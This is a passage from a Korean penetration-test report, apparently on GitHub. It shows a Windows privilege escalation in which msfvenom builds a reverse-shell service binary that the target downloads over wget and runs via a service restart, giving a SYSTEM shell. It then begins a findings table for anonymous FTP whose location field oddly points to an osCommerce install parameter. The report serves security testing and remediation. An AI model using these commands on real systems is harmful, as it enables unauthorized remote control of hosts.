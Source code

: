 공격자 호스트에서 리버스쉘을 제작한 후, 대상 호스트의 `c:\utils\Remote.exe` 경로로 전송한다.
```
# ATTACKER
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=4466 -f exe-service -o Remote.exe

# TARGET
wget http://10.0.4.25/Remote.exe -OutFile c:\utils\Remote.exe
```


공격자 호스트에서 4466 포트를 열어두고, 서비스를 재실행하여 악성 바이너리 파일 Remote.exe 를 실행시킨다.
`Restart-Service RemoteSystemMonitorService`


SYSTEM 권한을 통해 서비스를 재실행시키므로, SYSTEM 유저로 리버스 쉘을 연결받은 것을 확인한다.
![](Pasted%20image%2020240727130103.png)

SYSTEM 권한으로 설정된 쉘을 획득했다. 이 권한 상승을 통해 Host1 의 제어권을 확보했고, 모의 침투 테스트는 여기서 마무리됐다. 테스트 과정에서 발견된 취약점들은 다음 섹션에 문서화했다.


## 취약점 및 대응 방안
### 1. Anonymous FTP 비활성화

#### 취약점 개요

| 정보          | 설명                                                                                                                                                                                        |
| ----------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 이름          | Anonymous FTP 비활성화                                                                                                                                                                        |
| 중요도         | 상                                                                                                                                                                                         |
| CVSS        | 6.4                                                                                                                                                                                       |
| CVSS String | AV:N/AC:L/Au:N/C:P/I:P/A:N                                                                                                                                                                |
| 위치          | URL: http://172.31.204.235:8080/catalog/install/install.php?step=4  <br>POST 요청 파라미터: `DB_DATABASE`  <br>파일 경로: `/var/www/osCommerce-2.3.4/catalog/install/templates/pages/install_4.php` |
